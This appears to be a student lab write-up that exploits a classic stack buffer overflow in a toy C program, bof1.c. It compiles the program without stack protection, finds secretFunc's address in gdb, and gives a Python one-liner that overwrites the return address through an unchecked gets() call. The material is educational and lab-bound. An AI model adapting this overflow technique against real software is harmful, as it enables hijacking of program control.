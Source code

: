 # bof1.c
In this attack, we aim to overwrite the return address with the address of a different function (redirect control) using Python!

# Vulnerbility
At the function `gets(array);` the attacker can control the flow of execution by input larger than 200 bytes

# Attack
Compile file with debugging, no stack protection
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](image.png)

Run gdb
`gdb bof1.out`
![alt text](image-1.png)

Disassemble the vuln function
`disas vuln`
![alt text](image-2.png)

Disassemble secretFunc
`disas secretFunc`
![alt text](image-3.png)
The address of 'secretFunc' is 0x0804846b

To attack, based on the stackframe we need 204 bytes 
To quit
`q`
To generate create 204 bytes by generate 204 character 'a'
`echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123`
 ![alt text](image-4.png)
